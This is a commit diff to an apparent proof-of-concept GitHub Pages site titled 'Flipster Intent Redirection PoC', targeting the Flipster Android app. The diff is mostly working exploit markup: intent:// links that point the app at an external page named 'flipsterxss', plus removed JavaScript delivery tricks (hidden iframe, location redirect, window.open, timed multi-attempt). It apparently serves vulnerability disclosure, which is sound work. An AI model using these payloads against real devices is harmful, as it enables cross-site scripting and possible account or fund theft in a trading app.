

Before and after one commit to xaleraf4ra/test-poc.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,56 +6,10 @@
 </head>
 <body>
     <h2>Flipster Intent Redirection PoC</h2>
-
-    <p><a href="intent://flipster.io/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;package=com.prestolabs.android.prex;end">
-        1. Intent link
-    </a></p>
+    <p>Click the link below on a device with Flipster installed:</p>
 
     <p><a href="intent://flipster.io/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;action=android.intent.action.VIEW;package=com.prestolabs.android.prex;component=com.prestolabs.android.prex/.presentations.ui.MainActivity;end">
-        2. Intent with component
+        Open Flipster (XSS PoC)
     </a></p>
-
-    <p><button onclick="method1()">3. Location redirect</button></p>
-
-    <p><button onclick="method2()">4. Iframe method</button></p>
-
-    <p><button onclick="method3()">5. Window.open</button></p>
-
-    <p><button onclick="method4()">6. Multi-attempt</button></p>
-
-    <script>
-    var target = "intent://flipster.io/https://xaleraf4ra.github.io/flipsterxss/#Intent;scheme=https;package=com.prestolabs.android.prex;end";
-    var direct = "https://flipster.io/https://xaleraf4ra.github.io/flipsterxss/";
-
-    function method1() {
-        window.location.href = target;
-    }
-
-    function method2() {
-        var i = document.createElement("iframe");
-        i.style.display = "none";
-        i.src = target;
-        document.body.appendChild(i);
-    }
-
-    function method3() {
-        window.open(target, "_self");
-    }
-
-    function method4() {
-        var i = document.createElement("iframe");
-        i.style.display = "none";
-        i.src = target;
-        document.body.appendChild(i);
-
-        setTimeout(function() {
-            window.location.href = target;
-        }, 1000);
-
-        setTimeout(function() {
-            window.location.href = direct;
-        }, 3000);
-    }
-    </script>
 </body>
 </html>
```
